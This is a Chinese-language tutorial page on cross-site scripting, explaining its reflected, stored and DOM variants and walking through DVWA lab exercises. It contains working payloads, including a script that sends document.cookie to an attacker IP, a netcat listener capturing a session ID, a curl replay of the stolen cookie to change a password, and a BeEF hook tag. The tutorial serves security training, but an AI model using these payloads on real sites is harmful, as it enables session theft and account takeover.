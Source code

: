 # 跨站脚本（Cross-site Scripting，XSS）

跨站脚本（Cross-site scripting，XSS）攻击是一种 Web 应用安全中的客户端漏洞，攻击者可以利用这种漏洞在网站上`注入`恶意的 JavaScript 代码。当受害者访问网站时就会自动运行这些恶意代码，攻击者可以劫持用户会话、破坏网站或将用户重定向到恶意站点。在`OWASP Top Ten 2017`中，XSS 攻击位于第 7 位。

![Cross-site scripting](../../../assets/img/cross-site-scripting.svg)

> 为避免和与CSS（Cascading Style Sheets，层叠样式表）混淆，将第一个字母改成了`X`，即`XSS`。

## 原理

```html
<input type="text" value="<%= getParameter("keyword") %>">
<button>搜索</button>
<div>
  您搜索的关键词是：<%= getParameter("keyword") %>
</div>
```

## 分类

XSS 攻击分为 3 个类别，包括`反射型（非持久型）`、`存储型（持久型`）和`DOM型`。

### 反射型

反射型 XSS 是跨站脚本攻击中最简单的一种类型，攻击载荷包含在 HTTP 请求中。

攻击者一般通过发送电子邮件，诱使受害者访问包含恶意代码的 URL。反射型 XSS 通常出现在搜索栏、用户登录等地方。

反射型 XSS 漏洞往往被认定为低危漏洞，因为随着用户的安全意识提高，在实战过程中利用难度高。

### 存储型

存储型 XSS，是指用户的恶意输入被存储下来，并在后期通过其他用户或管理员的页面进行展示。存储型 XSS 具有很高的隐蔽性，不需要受害者点击特定的 URL，通常被认为高危风险。

攻击场景多见于论坛、博客文章的评论、用户昵称等等。

### DOM型

传统的 XSS 漏洞一般出现在服务器端代码中，而 DOM 型 XSS 是基于 DOM 文档对象模型的一种漏洞，所以，受客户端浏览器的脚本代码所影响。

```javascript
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```

 HTML 事件

## 限制绕过技巧

### CSP绕过

#### CSP介绍

#### CSP绕过

### XSS2RCE

## DVWA攻击场景示例

```
<script>alert(/xss/)</script>
<script>alert(document.cookie)</script>
<script>document.location = "http://google.com"</script>
```

### 实验一、利用XSS漏洞盗取并利用Cookie

第一步，在 Kali Linux 中，使用`nc`命令监听端口

```bash
nc -lvp 1234
```

第二步，在 DVWA 中，输入 payload

```javascript
<script>new Image ().src="http://192.168.164.128:1234/"+document.cookie;</script>
```

第三步，在 Kali Linux 中，查看终端信息

```bash
connect to [127.0.0.1] from localhost [127.0.0.1] 38900
GET /security=low;%20PHPSESSID=kavqn49seghn91lcbs6j411v75 HTTP/1.1
...
```

第四步，使用盗取的 Cookie

方法一，使用`开发者工具`

`F12`打开开发者工具，选择`存储（storage）`标签页，左侧选择`Cookies`，对相应字段进行编辑，最后访问页面即可。

方法二，使用浏览器插件

推荐使用`Cookies Quick Manager`

方法三，使用`curl`命令

```bash
curl --cookie "/security=low;%20PHPSESSID=kavqn49seghn91lcbs6j411v75" --location "localhost/dvwa/vulnerabilities/csrf/?password_new=chicken&password_conf=chicken&Change=Change#" | grep "Password"
```

### 实验二、使用[BeEF](https://beefproject.com/)框架

新版本 Kali Linux，已经移除 Beef，需要手工安装

```bash
$ beef-xss                                                                                                   
Command 'beef-xss' not found, but can be installed with:
sudo apt install beef-xss
Do you want to install it? (N/y)y 输入y
....
$ sudo beef-xss
[-] You are using the Default credentials
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user: 输入新密码
[i] GeoIP database is missing
[i] Run geoipupdate to download / update Maxmind GeoIP database
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]  Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>
....
```

参考

<https://www.freebuf.com/sectool/178512.html>

## 防御

## XSS通关游戏

- [Google XSS Game](https://xss-game.appspot.com/)
- [xss-labs](https://github.com/do0dl3/xss-labs)
- [Alert(1) to Win](https://alf.nu/alert1)
- [prompt(1) to win](https://prompt.ml/)
- [XSS Challenges](https://xss-quiz.int21h.jp/)
- [brutelogic XSS Practice Labs](https://brutelogic.com.br/knoxss.html)
- [brutelogic XSS Gym](https://brutelogic.com.br/gym.php)
- [XSS by PwnFunction](https://xss.pwnfunction.com/)
- [XSS Game](http://www.xssgame.com/)
- [cure53 XSS Challenges](https://github.com/cure53/XSSChallengeWiki/wiki)

## 参考资料

- [OWASP,Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger，Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)
- [MDN Web Docs，跨站脚本攻击](https://developer.mozilla.org/zh-CN/docs/Glossary/Cross-site_scripting)
- [美团技术团队-前端安全系列（一）：如何防止XSS攻击？](https://tech.meituan.com/2018/09/27/fe-security.html)

<https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html>
